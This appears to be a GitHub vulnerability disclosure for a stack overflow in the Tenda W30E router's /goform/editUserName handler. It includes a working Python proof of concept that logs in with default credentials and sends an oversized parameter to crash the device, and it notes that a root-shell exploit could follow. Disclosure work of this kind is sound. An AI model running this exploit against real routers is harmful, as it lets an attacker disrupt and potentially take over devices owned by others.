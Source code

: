 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/editUserName/img/2.png)

In /goform/editUserName, new_account will be added to v16 by strcat. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'editUserName=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/editUserName/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell
